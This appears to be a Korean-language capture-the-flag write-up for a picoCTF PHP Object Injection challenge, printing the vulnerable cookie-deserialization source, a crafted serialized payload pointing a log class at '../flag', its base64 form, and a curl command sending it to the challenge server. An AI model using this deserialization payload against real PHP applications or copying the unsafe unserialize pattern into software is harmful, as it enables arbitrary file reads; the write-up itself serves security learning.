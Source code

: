 ```yaml
---
tags:
  - picoCTF
tech:
  - PHP Object Injection
  - Web
---
```

# Walk-Through

문제 링크로 접속하면 username과 password 입력 박스가 보인다. 입력 박스를 통해 기본적으로 시도해볼 수 있는 SQL Injection 을 해봤지만 성공하진 않는다.

문제 풀이에 대한 힌트를 얻기 위해 사이트 내부로 돌아다니자. 일단 /robots.txt 를 접속 시도했을때 다음과 같은 내용이 보인다.
```txt
User-agent: *
Disallow: /admin.phps
```

https://www.solvusoft.com/ko/file-extensions/file-extension-PHPS 에 따르면 phps는 PHP Source를 볼 수 있는  파일이라고 되어있다. robots.txt를 통해 admin.phps가 노출된 걸 통해 사이트 내 다른 파일도 phps가 접근 가능한게 아닐까 ?

F12를 눌러 Network 탭을 통해 username & password 입력박스의 경로가 "/index.php" 라는 걸 확인할 수 있다. 이후 index.phps 로 접근하면 소스 파일을 열어볼 수 있다.
```php
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
?>
```
해당 소스를 흝어보니 로그인에 성공한 경우 authentication.php를 호출하는걸로 보아 이 파일도 phps로 접근하면 소스를 읽어볼 수 있을 듯 하다.
```php
<?php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```
authentication.phps 에서 또한 cookie.php 파일을 확인할 수 있다. cookie.phps로 접속해서 소스를 확인하자.
```php
<?php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}

        function is_admin() {
                $admin = false;

                $con = new SQLite3("../users.db");
                $username = $this->username;
                $password = $this->password;
                $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                $stm->bindValue(1, $username, SQLITE3_TEXT);
                $stm->bindValue(2, $password, SQLITE3_TEXT);
                $res = $stm->execute();
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
}

if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
```

cookie.phps를 통해 cookie에 login이라는 key를 통해 무언가 시도해볼 수 있는 것으로 보인다.

# PHP Object Injection
PHP Object injection은 unserialize() 함수에 사용자가 입력한 값을 전달되기 전에 제대로 삭제되지 않은 경우 발생한다고 한다.

PHP는 객체 직렬화를 허용하므로 공격자가 임시로 직렬화된 문자열을 취약한 unserializer() 호출에 전달하여 임의의 PHP 객체를 주입할 수 있다.

이 문제에서는 authentication.php에 정의된 "access_log"의 log_file 변수에 문제에서 힌트로 준 플래그 파일의 경로를 가리키게 해보자.  

# Payload

cookie의 login이라는 key에 입력할 value를 다음과 같이 입력하자.
```
O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}
```
위 값이 의미하는 바는 각각 다음과 같다.
```
Object:Object Name Length:"Class Name":Object Size:{s}
```
O : Object
10 : Object Name Length
"access_log" : Class Name
1 : Object Size (입력값)
s : String
8 : String Length
log_file : String Name
s : String
7 : String Legnth
"../flag" : String Name


위 값을 base64로 encode 하며 다음과 같은 값이 나온다.
```
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```
브라우저의 쿠키 편집 도구를 이용해서 시도할 수도 있겠으나 단순히 curl을 이용해보자.
``` shell
╰─$ curl -v --cookie "login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9" http://mercury.picoctf.net:8404/authentication.php
```
위 curl 명령의 결과로 flag 획득이 가능하다.